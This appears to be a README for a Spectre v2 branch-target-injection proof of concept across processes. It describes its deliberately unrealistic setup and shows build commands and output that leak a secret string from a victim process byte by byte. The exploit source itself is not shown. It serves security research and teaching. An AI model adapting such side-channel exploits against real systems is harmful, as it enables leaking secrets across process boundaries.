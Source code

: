 # Spectre v2 (branch target injection) cross process

adapted from https://github.com/Anton-Cao/spectrev2-poc which is in the same address space

in this unrealistic proof-of-concept setup, victim has:
- the secret
- an indirect branch towards a safe target
- a spectre gadget ready to be used
- a side-channel send
- flush + reload code
- measurement and report
- no aslr

all the attacker has to do is branch target injection

same core, or different core from the same cpu works

## Output

```
$ make
gcc -Wall -O0 -o attacker attacker.c
gcc -Wall -O0 -o victim victim.c
$ ./run.sh
victim 0x11a7 - gadget 0x1175 - target 0x44080
reading 0x555555556008 success: 0x54='T'
reading 0x555555556009 success: 0x68='h'
reading 0x55555555600a success: 0x65='e'
reading 0x55555555600b success: 0x20=' '
reading 0x55555555600c success: 0x4D='M'
reading 0x55555555600d success: 0x61='a'
reading 0x55555555600e success: 0x67='g'
reading 0x55555555600f success: 0x69='i'
reading 0x555555556010 success: 0x63='c'
reading 0x555555556011 success: 0x20=' '
reading 0x555555556012 success: 0x57='W'
reading 0x555555556013 success: 0x6F='o'
reading 0x555555556014 success: 0x72='r'
reading 0x555555556015 success: 0x64='d'
reading 0x555555556016 success: 0x73='s'
reading 0x555555556017 success: 0x20=' '
reading 0x555555556018 success: 0x61='a'
reading 0x555555556019 success: 0x72='r'
reading 0x55555555601a success: 0x65='e'
reading 0x55555555601b success: 0x20=' '
reading 0x55555555601c success: 0x53='S'
reading 0x55555555601d success: 0x71='q'
reading 0x55555555601e success: 0x75='u'
reading 0x55555555601f success: 0x65='e'
reading 0x555555556020 success: 0x61='a'
reading 0x555555556021 success: 0x6D='m'
reading 0x555555556022 success: 0x69='i'
reading 0x555555556023 success: 0x73='s'
reading 0x555555556024 success: 0x68='h'
reading 0x555555556025 success: 0x20=' '
reading 0x555555556026 success: 0x4F='O'
reading 0x555555556027 success: 0x73='s'
reading 0x555555556028 success: 0x73='s'
reading 0x555555556029 success: 0x69='i'
reading 0x55555555602a success: 0x66='f'
reading 0x55555555602b success: 0x72='r'
reading 0x55555555602c success: 0x61='a'
reading 0x55555555602d success: 0x67='g'
reading 0x55555555602e success: 0x65='e'
reading 0x55555555602f success: 0x2E='.'
done - you may now ^C to stop the attacker
```
